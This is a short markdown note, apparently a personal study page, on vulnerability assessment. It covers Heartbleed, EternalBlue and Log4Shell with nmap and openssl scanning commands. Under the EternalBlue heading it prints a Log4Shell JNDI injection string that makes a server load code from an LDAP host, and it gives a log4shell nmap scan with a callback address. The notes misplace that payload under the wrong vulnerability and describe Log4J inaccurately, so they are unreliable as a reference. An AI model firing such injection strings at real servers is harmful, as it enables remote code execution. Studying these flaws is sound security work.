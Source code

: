 ```yaml
---
title: 'Vulnerability Assessment'
pubDate: 'May 12 2023'
slug: 'trip/vulnerability-assessment'
---
```


Risk Management -> Vulnerability Management -> Vulnerability Assessment -> Penetration Test

NIST: National Vulnerability Database

Fix machine vulnerability if that is identified in the risk management process

## OpenSSL Heartbleed bug (CVE-2014-0160)

Do not handle properly Heartbeat Extension packets, which allows remote attackes to obtain sensitive information from process memory via crafted packets that trigger a buffer over-read, by reading private keys.

**Anatomy:** We send a packet as the part of TLS entry so there is a TCP HandShake and the next layer above is the encription connection and as part of that public and private key for each side that will encript a shared private key that is simetric.

```bash

$nmap -sV --sript ssl-enum-ciphers -p443 target

#TLSv1.0, TLSv1.1, TLSv1.2 vulnerable

$nmap -p443 --script ssl-heartbleed target

nc -v domain.com 80 # GET / HTTP/1.0

# util si el puerto 443 esta online
openssl s_client -connect domain.com:443 # GET / HTTP/1.0

```

## EternalBlue - MS17-010 (CVE-2017-0143)

**_${jndi:ldap://demo.local:1389/mycode}_**

Server fails to parse logged data as str and evaluates JNDI lookup, java naming and directory interface

```bash
# win 7 enterprise 7601
# script from nmap: smb-vuln-ms17-010
# EternalBlue attack SMBv1 server, BufferOverflow allows to RCE
$nmap -sV -O demo.local
autoBlue

```

## Log4J - (CVE-2021-44228)

Its useful for login in java.

Attacker can control log messages or log message parameters can execute code from LDAP servers

```bash
$nmap --sript log4shell.nse --script-args log4shell.callback-server=172.17.42.1:1389 -p8080 172.17.42.1
```
